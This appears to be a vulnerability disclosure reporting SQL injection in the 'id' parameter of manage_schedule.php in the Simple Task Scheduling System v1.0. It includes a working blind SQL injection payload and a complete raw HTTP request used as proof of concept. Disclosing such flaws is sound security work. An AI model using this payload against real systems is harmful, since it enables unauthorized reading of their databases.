 # Simple Task Scheduling System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /tss/admin/schedules/manage_schedule.php

Vulnerability location: /tss/admin/schedules/manage_schedule.php, id

db_name = tss_db;length=6

[+] Payload: /tss/admin/schedules/manage_schedule.php?id=1%27%20and%20length(database())%20=6--+ // Leak place ---> id

```sql
GET /tss/admin/schedules/manage_schedule.php?id=1%27%20and%20length(database())%20=6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=tc6akb10bh652defck09t9eug4
Connection: close
```

When length (database ()) = 6
![image](https://user-images.githubusercontent.com/54017627/179392434-cdb930dd-0cb2-425f-9975-592201214bcc.png)

When length (database ()) = 5
![image](https://user-images.githubusercontent.com/54017627/179392439-7df9acf7-97f0-4698-bd34-5c03b5b17517.png)
